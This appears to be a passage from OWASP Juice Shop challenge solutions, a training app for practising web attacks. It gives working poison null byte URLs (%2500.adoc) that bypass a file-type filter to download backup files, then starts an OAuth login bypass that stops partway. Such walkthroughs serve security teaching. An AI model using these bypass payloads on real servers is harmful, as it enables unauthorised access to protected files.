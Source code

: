 ### **Access a developer’s forgotten backup file**

1. Browse to [http://localhost:3000/ftp](http://localhost:3000/ftp) (like in [Access a confidential document](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_access_a_confidential_document).
2. Opening [http://localhost:3000/ftp/package.json.bak](http://localhost:3000/ftp/package.json.bak) directly will fail complaining about an illegal file type.
3. Using a *Poison Null Byte* (`%00`) the filter can be tricked, but only with a twist:
    - Accessing [http://localhost:3000/ftp/package.json.bak%00.adoc](http://localhost:3000/ftp/package.json.bak%00.adoc) will surprisingly **not** succeed…
    - …because the `%` character needs to be URL-encoded (into `%25`) as well in order to work its magic later during the file system access.
4. [http://localhost:3000/ftp/package.json.bak%2500.adoc](http://localhost:3000/ftp/package.json.bak%2500.adoc) will ultimately solve the challenge.

### **Access a salesman’s forgotten backup file**

1. Use the *Poison Null Byte* attack described in [Access a developer’s forgotten backup file](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_access_a_developers_forgotten_backup_file)…
2. …to download [http://localhost:3000/ftp/coupons_2013.adoc.bak%2500.adoc](http://localhost:3000/ftp/coupons_2013.adoc.bak%2500.adoc)

### **Log in with Bjoern’s Gmail account**

1. Bjoern has registered via Google OAuth with his (real) account [bjoern.kimminich@googlemail.com](mailto:bjoern.kimminich@googlemail.com).
2. Cracking his password hash will probably not work.
3. To find out how the OAuth registration and login work, inspect the `main.js` and search for `oauth`, which will eventually reveal a function `userService.oauthLogin()`.
    
    ![oauthLogin function in main.js](media/blog4/minified_js-oauth.png)
    